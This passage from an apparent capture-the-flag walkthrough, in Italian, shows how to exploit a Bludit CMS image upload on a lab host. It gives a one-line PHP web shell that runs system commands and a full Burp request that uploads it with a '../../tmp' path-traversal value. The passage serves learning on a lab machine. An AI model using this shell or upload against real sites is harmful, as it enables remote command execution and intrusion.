 Inviamo la richiesta al bit Repeater di Burp premendo CTRL + R , modifica il valore uuid in ../../tmp e sostituiamo il codice immagine con il seguente payload PHP, che può essere utilizzato per eseguire comandi di sistema.

```php
<?=`$_GET[0]`?>
```

ottenendo la seguente richiesta

```burp
POST /admin/ajax/upload-images HTTP/1.1
Host: 10.10.10.191
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.191/admin/new-content
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=--------------------------
-24519939964357608924145519178
Content-Length: 512
Origin: http://10.10.10.191
DNT: 1
Connection: close
Cookie: BLUDIT-KEY=atkvm1cgaqekr03c0j35krl9t5

-----------------------------24519939964357608924145519178
Content-Disposition: form-data; name="images[]"; filename="exploit.png"
Content-Type: image/png

<?=`$_GET[0]`?>

-----------------------------24519939964357608924145519178
Content-Disposition: form-data; name="uuid"

../../tmp
-----------------------------24519939964357608924145519178
Content-Disposition: form-data; name="tokenCSRF"

bf4d7bdd3837f910be1753a72ecfb697f0b6241e
-----------------------------24519939964357608924145519178--

```